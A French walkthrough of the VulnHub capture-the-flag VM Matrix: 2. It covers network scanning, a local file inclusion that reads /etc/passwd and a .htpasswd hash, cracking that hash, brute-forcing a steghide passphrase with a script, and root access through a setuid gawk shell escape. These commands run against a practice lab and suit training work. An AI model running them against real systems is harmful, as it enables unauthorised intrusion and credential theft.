



# Matrix: 2

[Matrix: 2](https://www.vulnhub.com/entry/matrix-2,279/) est une machine virtuelle vulnérable, conçue par [Ajay Verma](https://twitter.com/unknowndevice64) et publiée sur VulnHub au mois de décembre 2018. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. Il s'agit de la deuxième VM de la série Matrix ; la résolution complète de [la première VM Matrix: 1](/CTF-VulnLabs/matrix1) est disponible sur ce Github. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Recherche d'informations avec netdiscover et nmap

Pour commencer, l'outil [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM Matrix: 2, il s'agit de 192.168.56.101.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.100  08:00:27:38:27:38      1      60  PCS Systemtechnik GmbH
192.168.56.101  08:00:27:45:3c:f8      1      60  PCS Systemtechnik GmbH
```


Toute phase d'attaque commence par une analyse du système cible. Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Un serveur Web [nginx](https://fr.wikipedia.org/wiki/Nginx) 1.10.3 semble installé sur le serveur, les ports 80, 1337, 12320, 12321 et 12322 sont les cinq seuls ports TCP ouverts sur la VM Matrix: 2.

```console
root@blinils:~# nmap -sT -sV -p- 192.168.56.101
Nmap scan report for 192.168.56.101
Host is up (0.00058s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               nginx 1.10.3
1337/tcp  open  ssl/http           nginx
12320/tcp open  ssl/http           ShellInABox
12321/tcp open  ssl/warehouse-sss?
12322/tcp open  ssl/http           nginx
MAC Address: 08:00:27:45:3C:F8 (Oracle VirtualBox virtual NIC)
```

## Local File Inclusion (LFI) sur la page file_view.php



Force est de constater qu'il n'y a pas grand-chose à se mettre sous la dent : la connexion à l'interface de ```Shell In A Box``` sur le port 12320 nécessite un couple d'identifiants, idem sur le port 1337 où une authentification [htpasswd](https://httpd.apache.org/docs/2.4/fr/programs/htpasswd.html) est présente (_401 Authorization Required_).  Une recherche approfondie avec [__DIRB__](https://tools.kali.org/web-applications/dirb) permet finalement de mettre la main sur ```robots.txt``` qui liste un seul fichier nommé ```file_view.php```.



```console
root@blinils:~# dirb https://192.168.56.101:12322/ -X .txt

--snip--
URL_BASE: https://192.168.56.101:12322/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]

--snip--
+ https://192.168.56.101:12322/robots.txt (CODE:200|SIZE:38)
--snip--

root@blinils:~# curl --insecure https://192.168.56.101:12322/robots.txt
User-agent: *
Disallow: file_view.php

root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php
<!-- Error file parameter missing..!!! -->
```

Très rapidement, on devine une [inclusion de fichier local](https://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_local file inclusion_ en anglais) sur la page ```file_view.php``` et son paramètre ```file```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Rien n'empêche d'inclure un autre fichier présent sur le serveur, puisqu'aucun contrôle n'est implémenté sur la valeur du paramètre ```file```. Un exemple ? Le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système. La méthode [GET](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre ```file``` est inclus dans l'URL) est testée en premier  : aucun résultat. La méthode [POST](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre est situé dans le corps de la requête) est ensuite testée : bingo !

```console
root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php?file=/etc/passwd
<!-- Error file parameter missing..!!! -->

root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=/etc/passwd"

root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
--snip--
shellinabox:x:107:109:Shell In A Box,,,:/var/lib/shellinabox:/bin/false
ntp:x:108:111::/home/ntp:/bin/false
stunnel4:x:109:113::/var/run/stunnel4:/bin/false
postfix:x:110:114::/var/spool/postfix:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
n30:x:1000:1000:Neo,,,:/home/n30:/bin/bash
testuser:x:1001:1001::/home/testuser:
```

Cette LFI nous donne l'occasion de consulter non seulement le code source de la page ```index.php``` elle-même...

```console
root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=../../../../../var/www/index.php"
<!DOCTYPE html>
<html lang="en" >
<head>
<meta charset="UTF-8">
<title>Welcome in Matrix v2 Neo</title>
--snip--
<!--img src="h1dd3n.jpg"-->
<br/><br/><br/><br/><br/><br/><br/><br/><br/><br/>
<div class="container"> <div class="text"></div> </div>
--snip--
</html>
```

Bizarre, ce fichier ```h1dd3n.jpg``` n'apparaît pas dans le code source des pages Web visitées.

Est-ce l'élément permettant de passer à la suite du CTF ?

```console
root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=../../../../../var/www/h1dd3n.jpg" --output h1dd3n.jpg
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 25102    0 25052  100    50  2224k   4545 --:--:-- --:--:-- --:--:-- 2451k
```

## Stéganographie (partie 1/2) et accès à Shell In The Box

Peut-être est-ce une épreuve de [stéganographie](https://en.wikipedia.org/wiki/Steganography) ? Le nom du fichier signifie-t-il qu'un message caché se trouve dans cette image ? Malheureusement, aucun élément probant dans les métadonnées de l'image ([__exiftool__](https://exiftool.org/)), aucun message caché dans les bits de poids faible de l'image ([__StegSolve__](http://www.caesum.com/handbook/stego.htm), [__zsteg__](https://github.com/zed-0xff/zsteg)), et rien dans le fichier lui-même ([_strings_](https://en.wikipedia.org/wiki/Strings_(Unix)), [_grep_](https://en.wikipedia.org/wiki/Grep)). Tel un [fusil de Tchekhov](https://en.wikipedia.org/wiki/Chekhov%27s_gun), ce fichier image sera certainement utile par la suite. Pour l'heure, c'est au tour de l'émulateur de terminal SSH d'être testé (port 12320) et... oh surprise, le couple d'identifiants ```testuser:testuser``` fonctionne aussitôt !

```console
Matrix_2 login: testuser
Password: [testuser]
Last login: Sat Dec  8 08:46:10 UTC 2018 from 127.0.0.1 on pts/0
Welcome to Matrix_2, TurnKey GNU/Linux 15.1 / TurnKey 9.6 Stretch

--snip--

Linux Matrix_2 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

===================================================================================

No directory, logging in with HOME=/
$
```

C'est l'occasion de jeter un oeil au répertoire ```/var/www``` et à son fichier ```.htpasswd```...

```console
$ id
uid=1001(testuser) gid=1001(testuser) groups=1001(testuser)

$ ls -al /var/www
total 48
drwxr-xr-x  4 root root  4096 Dec 14  2018 .
drwxr-xr-x 12 root root  4096 Dec  7  2018 ..
drwxr-xr-x  4 root root  4096 Dec 14  2018 4cc3ss
-rw-r--r--  1 root root 25052 Dec  8  2018 h1dd3n.jpg
-rw-r--r--  1 root root  3594 Dec 14  2018 index.php
drwxr-xr-x  2 root root  4096 Dec  8  2018 p4ss

$ ls -al /var/www/p4ss
total 12
drwxr-xr-x 2 root root 4096 Dec  8  2018 .
drwxr-xr-x 4 root root 4096 Dec 14  2018 ..
-rw-r--r-- 1 root root   46 Dec  8  2018 .htpasswd

$ cat /var/www/p4ss/.htpasswd
Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0
```

À toi de jouer, [__John The Ripper__](https://www.openwall.com/john/) !

```console
root@blinils:~# echo "Tr1n17y:\$apr1\$7tu4e5pd\$hwluCxFYqn/IHVFcQ2wER0" > .htpasswd
root@blinils:~# john .htpasswd
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
--snip--
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
admin            (Tr1n17y)
1g 0:00:00:00 DONE 2/3 (2019-06-16 16:06) 7.692g/s 29169p/s 29169c/s 29169C/s nina..buzz
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Le couple d'identifiants ```Tr1n17y:admin``` permet d'accéder à la page Web protégée (port 1337).



## Stéganographie (partie 2/2) et élévation de privilèges

Les résultats de la phase de reconnaissance s'avèrent bien maigres : aucun autre fichier à l'instar de ```file_view.php``` n'a été trouvé sur l'ensemble des pages Web ; les messages d'accueil et les citations sont les seuls éléments qui diffèrent d'une page à l'autre. Idem sur le serveur, où la seule piste semble être le fichier ```/usr/bin/morpheus```, inexploitable pour l'instant (on y reviendra).

```console
testuser@Matrix_2:/$ find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 10568 Jan 22  2017 /usr/lib/authbind/helper
-rwsr-xr-x 1 root root 440728 Aug 21  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-r-sr-x--- 1 root n30 662240 Dec  8  2018 /usr/bin/morpheus
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
```

L'objectif est bel bien d'obtenir un accès avec l'utilisateur ```n30```, et le fichier ```h1dd3n.jpg``` n'a toujours pas été exploité. C'est ici qu'entre en jeu l'outil [__steghide__](http://steghide.sourceforge.net/) qui permet de cacher et/ou d'extraire un secret au format texte, dans différents types de fichiers. En fournissant la bonne passphrase à steghide, celui-ci pourra extraire les informations dissimulées. Cependant, et il s'agit selon moi d'une faiblesse de ce CTF, cette étape s'apparente à du _guessing_ car rien ne nous dit que ```h1dd3n.jpg``` n'est pas simplement un artefact, un flag intermédiaire ou une image bonus. C'est bien parce que toutes les pistes envisagées ont été exploitées que steghide est finalement entré en jeu dans la résolution de ce CTF, après plusieurs heures d'arrachage de cheveux.

```console
root@blinils:~# steghide extract -sf h1dd3n.jpg -p toto
steghide: could not extract any data with that passphrase!
```

L'option ```-p``` permet de passer directement la passphrase en ligne de commande. Un script permettant de tester différentes passphrases a été conçu [pour la VM FourAndSix: 2.01](/CTF-VulnLabs/fourandsix2), il s'agira simplement de l'adapter pour l'outil steghide.

Oui, mais avec quel dictionnaire ? [500-worst-passwords.txt](https://wiki.skullsecurity.org/Passwords) n'a rien donné, et avec ses 14 millions de lignes, rockyou.txt prend un temps monstrueux. C'est là qu'intervient l'outil [__CeWL__](https://digi.ninja/projects/cewl.php) (_Custom Word List Generator_) créé par Robin Wood alias [DigiNinja](https://digi.ninja/about.php). CeWL peut extraire un ensemble de mots-clés dans une page Web donnée, et générer par la même occasion un dictionnaire de mots de passe. Ici, 84 mots de huit lettres ou plus ont été récupérés et stockés dans le fichier ```dicoMatrix2.txt```.

```console
root@blinils:~# ls
h1dd3n.jpg  test_password_steghide.sh

root@blinils:~# cewl -d 1 -m 2 -w dicoMatrix2.txt https://192.168.56.101:1337/ --auth_type basic --auth_user Tr1n17y --auth_pass admin --with-numbers
CeWL 5.4.4.1 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

root@blinils:~# ls
dicoMatrix2.txt  h1dd3n.jpg  test_password_steghide.sh

root@blinils:~# head -n 10 dicoMatrix2.txt 
the
you
in
to
your
You
is
and
Welcome
Matrix

root@blinils:~# cat test_password_steghide.sh 
#!/bin/bash
for WORD in `cat dicoMatrix2.txt`
do
	steghide extract -sf h1dd3n.jpg -p "$WORD" 2>/dev/null
	if [[ $? = 0 ]]; then
			echo "[+] Found:" $WORD
		break
	fi
done

root@blinils:~# ./test_password_steghide.sh
[+] Found: n30

root@blinils:~# ls
dicoMatrix2.txt  h1dd3n.jpg  n30.txt  test_password_steghide.sh

root@blinils:~# cat n30.txt 
P4$$w0rd
```

Le mot de passe trouvé est bien celui de l'utilisateur ```n30``` !

```console
testuser@Matrix_2:/$ id
uid=1001(testuser) gid=1001(testuser) groups=1001(testuser)

testuser@Matrix_2:/$ su - n30
Password: [P4$$w0rd]

n30@Matrix_2 ~$ id
uid=1000(n30) gid=1000(n30) groups=1000(n30)
```

## Élévation de privilèges avec le binaire morpheus (alias gawk)

L'historique des commandes Unix de l'utilisateur ```n30``` nous aiguille grandement pour la fin de ce CTF : en effet, les commandes ```ls -l /usr/bin/morpheus``` et ```morpheus 'BEGIN {system("/bin/sh")}'``` ont le don d'intriguer. Pour rappel, le binaire ```/usr/bin/morpheus``` possède le [bit setuid](https://tech.feub.net/2008/03/setuid-setgid-et-sticky-bit/).

```console
n30@Matrix_2 ~$ ls -l /usr/bin/morpheus
-r-sr-x--- 1 root n30 662240 Dec  8  2018 /usr/bin/morpheus

n30@Matrix_2 ~$ /usr/bin/morpheus
Usage: morpheus [POSIX or GNU style options] -f progfile [--] file ...
Usage: morpheus [POSIX or GNU style options] [--] 'program' file ...
--snip--

To report bugs, see node `Bugs' in `gawk.info', which is
section `Reporting Problems and Bugs' in the printed version.

gawk is a pattern scanning and processing language.
By default it reads standard input and writes standard output.

Examples:
        gawk '{ sum += $1 }; END { print sum }' file
        gawk -F: '{ print $1 }' /etc/passwd
```

Il s'avère que le binaire ```/usr/bin/morpheus``` n'est autre que l'utilitaire ```gawk``` qui dispose de son entrée dans [__GTFOBins__](https://gtfobins.github.io/gtfobins/awk/) !

```console
n30@Matrix_2 ~$ /usr/bin/morpheus 'BEGIN {system("/bin/sh")}' 

# id
uid=1000(n30) gid=1000(n30) euid=0(root) groups=1000(n30)

# python -c 'import os; os.setuid(0); os.setgid(0); os.seteuid(0); os.system("/bin/bash")'

root@Matrix_2 /usr/bin# id
uid=0(root) gid=0(root) groups=0(root),1000(n30)
```

Il ne reste plus qu'à lire le flag du concepteur [@unknowndevice64](https://twitter.com/unknowndevice64), et à le remercier chaudement pour cette VM !

```console
root@Matrix_2 ~# cat /root/flag.txt 
╦ ╦┌─┐┬ ┬┬─┐┌─┐  ┌─┐┌─┐┌─┐┌┬┐┌─┐┬─┐  ┌┬┐┬ ┬┌─┐┌┐┌  ┌┬┐┬ ┬┬┌─┐
╚╦╝│ ││ │├┬┘├┤   ├┤ ├─┤└─┐ │ ├┤ ├┬┘   │ ├─┤├─┤│││   │ ├─┤│└─┐
 ╩ └─┘└─┘┴└─└─┘  └  ┴ ┴└─┘ ┴ └─┘┴└─   ┴ ┴ ┴┴ ┴┘└┘   ┴ ┴ ┴┴└─┘o
╔╦╗┌─┐┌┐┌┌┬┐  ┌┬┐┬ ┬┬┌┐┌┬┌─  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐
 ║║│ ││││ │    │ ├─┤││││├┴┐  └┬┘│ ││ │  ├─┤├┬┘├┤
═╩╝└─┘┘└┘ ┴    ┴ ┴ ┴┴┘└┘┴ ┴   ┴ └─┘└─┘  ┴ ┴┴└─└─┘┘
┬┌─┌┐┌┌─┐┬ ┬  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐
├┴┐││││ ││││  └┬┘│ ││ │  ├─┤├┬┘├┤
┴ ┴┘└┘└─┘└┴┘   ┴ └─┘└─┘  ┴ ┴┴└─└─┘o
   ╔╦╗┌─┐┬─┐┌─┐┬ ┬┌─┐┬ ┬┌─┐
───║║║│ │├┬┘├─┘├─┤├┤ │ │└─┐
   ╩ ╩└─┘┴└─┴  ┴ ┴└─┘└─┘└─┘
╔═╗╦╔═╔═╗
╠═╣╠╩╗╠═╣
╩ ╩╩ ╩╩ ╩
┬ ┬┌┐┌┬┌─┌┐┌┌─┐┬ ┬┌┐┌┌┬┐┌─┐┬  ┬┬┌─┐┌─┐
│ ││││├┴┐││││ │││││││ ││├┤ └┐┌┘││  ├┤ 64
└─┘┘└┘┴ ┴┘└┘└─┘└┴┘┘└┘─┴┘└─┘ └┘ ┴└─┘└─┘
```